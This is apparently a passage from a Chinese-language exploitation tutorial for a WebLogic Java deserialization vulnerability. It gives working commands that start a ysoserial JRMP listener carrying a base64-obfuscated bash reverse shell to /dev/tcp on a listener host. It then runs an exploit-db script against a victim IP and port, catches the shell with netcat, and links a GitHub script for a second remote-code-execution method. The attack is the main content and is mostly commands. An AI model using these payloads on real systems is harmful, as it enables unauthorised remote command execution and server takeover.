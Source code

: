   
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEoaF5xfiaiaTOyTkhHaic27O4yVbSzoZdvYKTvVicKIgUzBVIdVuE9RA0mQ/640?wx_fmt=png&from=appmsg "")  
  
利用方式1 反弹Shell  
  
利用 ysoserial 开启一个 JRMP Server  
```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
其中 [command] 是要执行的命令，[listen port] 是 JRMP Server 监听的端口。
```  
  
ysoserial 不允许出现 &符号，需要利用Base64编码构造反弹 shell  
```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections1 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzNS45Lzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}'
```  
  
Base64编码的内容如下图所示  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVER91DyP3jEznVJoUibw830S3aaibVFPaawl9MTeP39jqQepA6FY6Eia5kQ/640?wx_fmt=png&from=appmsg "")  
  
注：在 Windows 中需要使用 PowerShell 来执行，否则 base64 命令会报错。  
  
EXP 脚本下载地址：https://www.exploit-db.com/exploits/44553  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEd0O9iaU0JF2ibJbycmVnGkMNhEuY9kLxjx4UbNiaCWRTzLk4AUia2UicdLA/640?wx_fmt=png&from=appmsg "")  
```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
其中 [victim ip] 和 [victim port] 分别是靶机 IP 和端口，[JRMPListener ip] 和[JRMPListener port] 分别是 JRMP 服务器的 IP 和端口，[JRMPClient] 是执行 JRMPClient 的类，可选的值有 JRMPClient 或 JRMPClient2。
```  
  
执行EXP（需要Python2的环境，这里使用Python2.7）  
```
F:\Env\Python_2_7\python.exe 44553.py 192.168.111.128 7001 F:\SecTools\ysoserial\ysoserial.jar 192.168.235.9 6666 JRMPClient
```  
  
先启动 JRMP Server  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEtgBCupd4FGMuY1vLUmvP3wz0icjvgUSEgrdVrDRrVYShlialnocar82Q/640?wx_fmt=png&from=appmsg "")  
  
然后开启监听 nc，最后启动 JRMP Client  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVED9E67hNsXh5f7scbicTFh9NkCibZRGoecjYK1VLtxqELzyvoYvXZJ7Nw/640?wx_fmt=png&from=appmsg "")  
  
成功接收到反弹Shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEC2sej6DMnQGz2Vcm5jIeLSQib1NXGg5P8M4QYqL219iaRx7dnzhqic28w/640?wx_fmt=png&from=appmsg "")  
  
  
利用方式2 RCE  
  
脚本地址  
```
https://github.com/jas502n/CVE-2018-2628
```  
  